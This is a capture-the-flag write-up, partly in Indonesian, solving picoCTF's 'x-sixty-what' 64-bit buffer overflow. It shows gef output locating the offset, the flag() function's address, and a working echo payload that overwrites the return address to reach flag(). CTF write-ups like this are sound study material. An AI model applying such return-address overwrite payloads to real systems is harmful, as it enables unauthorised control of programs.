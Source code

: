 <h1>x-sixty-what</h1>
<h3>Description</h3>
<p>Overflow x64 code
Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this <a href='https://artifacts.picoctf.net/c/64/vuln'>program</a>. Download <a href='https://artifacts.picoctf.net/c/64/vuln.c'>source</a>.
nc saturn.picoctf.net 50171</p>
<h3>Solution</h3>

```console
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r <<< aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
$rax   : 0x00007fffffffe1d0  →  "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga[...]"
$rbx   : 0x00007fffffffe358  →  0x00007fffffffe5fe  →  "/home/xisco/Downloads/vuln"
$rcx   : 0x00007ffff7df6aa0  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x00007fffffffe218  →  "jaaaaaaakaaaaaaalaaaaaaamaaa"
$rbp   : 0x6161616161616169 ("iaaaaaaa"?)
$rsi   : 0x00000000004052d0  →  "gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaama[...]"
$rdi   : 0x00007ffff7df8a40  →  0x0000000000000000
$rip   : 0x00000000004012d1  →  <vuln+001f> ret 
gef➤  pattern search 0x6161616161616169
[+] Searching for '6961616161616161'/'6161616161616169' with period=8
[+] Found at offset 64 (little-endian search) likely
```
<p>fungsi input gets overflow pada offset 64, dan lebar rbp(base pointer) 8 byte untuk 64bit</p>

```console
gef➤  info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010c0  puts@plt
0x00000000004010d0  setresgid@plt
0x00000000004010e0  printf@plt
0x00000000004010f0  fgets@plt
0x0000000000401100  gets@plt
0x0000000000401110  getegid@plt
0x0000000000401120  setvbuf@plt
0x0000000000401130  fopen@plt
0x0000000000401140  exit@plt
0x0000000000401150  _start
0x0000000000401180  _dl_relocate_static_pie
0x0000000000401190  deregister_tm_clones
0x00000000004011c0  register_tm_clones
0x0000000000401200  __do_global_dtors_aux
0x0000000000401230  frame_dummy
0x0000000000401236  flag
0x00000000004012b2  vuln
0x00000000004012d2  main
0x0000000000401340  __libc_csu_init
0x00000000004013b0  __libc_csu_fini
0x00000000004013b8  _fini
```
<p>alamat dari fungsi flag() = 0x0000000000401236, kita bisa menginput 64 byte buffer + 8 byte base pointer + alamat untuk return program ke fungsi flag() yaitu \x36\x12\x40\x00\x00\x00\x00\x00</p>
<pre>
  payload = aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbb\x36\x12\x40\x00\x00\x00\x00\x00
</pre>

```console
root@xisco-VirtualBox:/home/xisco/Downloads# echo -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbb\x36\x12\x40\x00\x00\x00\x00\x00" | ./vuln 
Welcome to 64-bit. Give me a string that gets you the flag: 
WIN
Segmentation fault (core dumped)
root@xisco-VirtualBox:/home/xisco/Downloads# 
```
<h3>
Server Bermasalah
</h3>
